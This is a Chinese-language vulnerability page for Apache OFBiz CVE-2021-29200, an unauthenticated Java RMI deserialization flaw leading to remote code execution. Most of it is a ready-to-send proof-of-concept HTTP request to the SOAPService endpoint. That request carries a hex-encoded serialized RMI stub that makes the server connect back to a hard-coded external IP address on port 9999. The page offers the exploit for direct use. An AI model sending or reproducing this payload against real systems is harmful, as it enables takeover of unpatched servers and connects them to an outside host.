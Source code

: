 # Apache OFBiz RMI Bypass RCE CVE-2021-29200

# Apache OFBiz RMI Bypass RCE CVE-2021-29200

## 漏洞描述

由于Apache OFBiz存在Java RMI反序列化漏洞，未经身份验证的用户可以执行RCE攻击，导致服务器被接管。

参考链接：

- https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
- https://xz.aliyun.com/t/9556

## 漏洞影响

```
Apache OFBiz < 17.12.07
```

## 漏洞复现

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```


